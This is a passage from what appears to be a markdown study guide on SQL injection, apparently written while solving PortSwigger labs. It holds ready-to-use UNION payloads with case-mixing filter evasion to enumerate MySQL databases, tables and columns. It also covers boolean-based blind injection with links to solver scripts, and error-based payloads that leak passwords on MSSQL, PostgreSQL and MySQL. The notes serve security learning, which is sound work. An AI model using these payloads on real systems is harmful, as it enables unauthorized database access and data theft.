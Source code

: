      ```sql
      # mysql example
      # Database names
      '-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata
      #Tables of a database
      '-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]
      # column names
      '-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
     ```

  - - Laps : [SQL injection with filter bypass via XML encoding](./laps/filter-bypass-via-XML-encoding.md)

### 3- Exploiting Boolean Based Blind SQLI

- Submit Boolean condition evaluate false like `and 1=2` and note resposne
- Submit Boolean condition evaluate true like `and 1=1` and note resposne
- Cheet Sheet : [Some SQL logic payloads](./files/sqli-logic.txt)
- then write a program that asks DB true/false questions and extract data
- Scripts used to solve portswigger Laps:
  - [Blind SQL injection with conditional responses lap on portswigger py script](./files/conditional_response_blind_sql.py)
  - [Blind SQL injection with conditional error lap on portswigger py scripts](./files/conditional_error_blind_sqli.py)

### 4- Exploiting visible/verbose SQL error messages

- submit a sql special characters and see the response
- if the error is visible but the output of these query not return in the page
- then we try payloads for these vulnerabilty
- EX:
  > Microsoft `SELECT 'foo' WHERE 1 = (SELECT 'secret')`
  >
  > > Conversion failed when converting the varchar value 'secret' to data type int.
  >
  > PostgreSQL `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`
  >
  > > invalid input syntax for integer: "secret"
  >
  > MySQL `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))`
  >
  > > XPATH syntax error: '\secret'
- Lap: [Visible Error Sqli lap on portswigger](./laps/visable-error-sql.md)

### 5- Exploiting Time Based Blind SQLI
